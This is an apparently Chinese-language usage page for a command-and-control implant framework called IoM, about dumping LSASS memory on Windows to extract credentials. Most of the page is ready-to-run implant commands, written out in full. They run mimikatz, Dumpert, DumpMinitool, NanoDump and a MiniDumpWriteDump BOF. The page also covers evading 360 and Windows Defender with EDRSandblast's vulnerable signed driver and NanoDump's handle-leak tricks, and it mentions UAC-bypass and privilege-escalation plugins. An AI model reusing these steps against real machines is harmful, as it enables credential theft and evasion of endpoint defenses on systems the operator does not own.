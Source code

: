 # IoM 用法: DumpLSASS

通常在提权或绕过UAC后，我们会使用诸如 Mimikatz 或 一些DumpLSASS 工具来获取 lsass.dmp，进而提取凭据。本文将主要举例如何在 IOM 环境中的用法。

## 一些常见的导出方法

按照执行方式举例

### PE
- mimikatz
- procdump 
- dumpert
- avdump
- sqldumper.exe
- 等等

你可以使用execute_exe
```
execute_exe "D:\TOOL\iom_test\mimikatz.exe" -- log "privilege::debug" "sekurlsa::logonPasswords full" exit
```
![mimikatz](/IoM/assets/usage/lsass/mimikatz.png)

和execute_exe相比, inline_exe的隐蔽性会更好, 但是稳定性方面一些不稳定操作crash或查杀会导致implant直接崩溃
```
inline_exe "D:\TOOL\iom_test\Outflank-Dumpert.exe"
```
![Dumpert](/IoM/assets/usage/lsass/dumpert.png)

### C\#

- DumpMinitool
- SharpDump
- 等

同样的, 你可以找到对应的execute_assembly和inline_assembly来执行
```bash
execute_assembly "C:\Program Files\dotnet\sdk\8.0.100\Extensions\dump\DumpMinitool.exe" -- --file lsass.dmp --processId <pid> --dumpType Full
inline_assembly "C:\Program Files\dotnet\sdk\8.0.100\Extensions\dump\DumpMinitool.exe" -- --file lsass.dmp --processId <pid> --dumpType Full
```


### Dll

- dumpert-dll
- comsvcs.dll

```
execute_dll "D:\c2测试目录\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll" -e Dump
inline_dll "D:\c2测试目录\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll" -e Dump
```

## Bypass 360/Windows Defender
以上大多数方法都已失效，360和Windows Defender都会直接查杀，一些日志相关结果如下:

1. 文件落地执行直接查杀

2. 牺牲进程注入查杀

3. 读取LSASS敏感信息查杀

4. 检测到lsass.dmp文件转存储到了本地磁盘的查杀lsass.dmp文件本身

360核晶, [附截图](/IoM/assets/usage/lsass/360hvm.png)

Windows Defender , [附截图](/IoM/assets/usage/lsass/windows_defender.png)

下面介绍几个bypass方法。

### EDRSandblast 
EDRSandBlast是一个用C编写的工具，可将易受攻击的签名驱动程序武器化以绕过 EDR 检测（通知例程回调、对象回调和ETW TI提供程序）和LSASS保护。还实施了多种用户态脱钩技术来逃避用户态监控。

经过测试wd可以过

```
mkdir "C:\temp"
cd "C:\temp"
upload "D:\EDRSandblast\x64\Release\gdrv.sys" "C:\temp\gdrv.sys"
execute_exe "D:\EDRSandblast\x64\Release\EDRSandblast_LsassDump.exe"
```

![EDRSandblast_LsassDump.png](/IoM/assets/usage/lsass/EDRSandblast_LsassDump.png)

![temp_edrsandblast](/IoM/assets/usage/lsass/temp_edrsandblast.png)

### NanoDump
nanodump是一个一种灵活的工具，可创建 LSASS 进程的小型转储

经测试，核晶和windows defender都无感。

1. 通过fork间接读取 LSASS ,并使用无效签名将转储写入到目标机器磁盘
```
nanodump -- --fork --write "C:\lsass.dmp"
.\restore_signature.exe lsass.dmp
python -m pypykatz lsa minidump lsass.dmp
```
![nanodump.png](/IoM/assets/usage/lsass/nanodump2.png)

2. 使用 seclogon Leak Remote 在记事本进程中泄漏 LSASS 句柄，复制该句柄以访问 LSASS，然后通过创建分叉并使用有效签名(--valid)，下载转储来间接读取它
```
nanodump -- --seclogon-leak-remote "C:\Windows\notepad.exe" --fork --valid
```
![seclogon-leak-remote.png](/IoM/assets/usage/lsass/seclogon-leak-remote.png)

### MiniDumpWriteDump

360核晶和wd都无感，但是本地测试时此方法会生成更大的转储文件约60M (nanodump的文件10M)
```
bof "D:\BOFs\MiniDumpWriteDump\minidumpwritedump.x64.o" -- int:648 str:"C:\lsass.dmp"
```

![MiniDumpWriteDump](/IoM/assets/usage/lsass/MiniDumpWriteDump.png)

## 其他:

对于UAC和提权方面，iom目前也已经支持了一些常见的插件，如UAC bypass、ElevateKit等，可以直接使用。

用于提权的 ElevateKit 提权截图示例如下:

![ElevateKit](/IoM/assets/usage/lsass/ElevateKit.png)

UAC Bypass截图:

![UAC Bypass](/IoM/assets/usage/lsass/uac-bypass.png)

## 参考
- https://github.com/fortra/nanodump
- https://github.com/rookuu/BOFs
- https://github.com/wavestone-cdt/EDRSandblast
- https://github.com/outflanknl/Dumpert
- https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools
- https://3gstudent.github.io
- https://redsiege.com/blog/2024/03/dumping-lsass-like-its-2019/
- ...
